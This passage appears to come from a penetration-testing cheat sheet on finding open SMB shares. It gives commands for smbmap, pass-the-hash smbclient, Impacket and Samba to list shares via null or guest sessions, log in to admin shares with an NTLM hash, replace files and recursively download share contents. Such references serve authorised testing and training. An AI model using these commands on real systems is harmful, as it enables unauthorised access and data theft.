 ## Open Shares

> Some shares can be accessible without authentication, explore them to find some juicy files

- [ShawnDEvans/smbmap - a handy SMB enumeration tool](https://github.com/ShawnDEvans/smbmap)
    
    ```powershell
    smbmap -H 10.10.10.10                # null session
    smbmap -H 10.10.10.10 -R             # recursive listing
    smbmap -H 10.10.10.10 -u invaliduser # guest smb session
    smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
    ```
    
- [byt3bl33d3r/pth-smbclient from path-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
    
    ```powershell
    pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
    pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
    ls  # list files
    cd  # move inside a folder
    get # download files
    put # replace a file
    ```
    
- [SecureAuthCorp/smbclient from Impacket](https://github.com/SecureAuthCorp/impacket)
    
    ```powershell
    smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share
            Replication     Disk      
            SYSVOL          Disk      Logon server share
            Users           Disk
    use Sharename # select a Sharename
    cd Folder     # move inside a folder
    ls            # list files
    ```
    
- [smbclient - from Samba, ftp-like client to access SMB/CIFS resources on servers](#)
    
    ```powershell
    smbclient -U username //10.0.0.1/SYSVOL
    smbclient //10.0.0.1/Share
    
    # Download a folder recursively
    smb: \> mask ""
    smb: \> recurse ON
    smb: \> prompt OFF
    smb: \> lcd '/path/to/go/'
    smb: \> mget *
    ```
    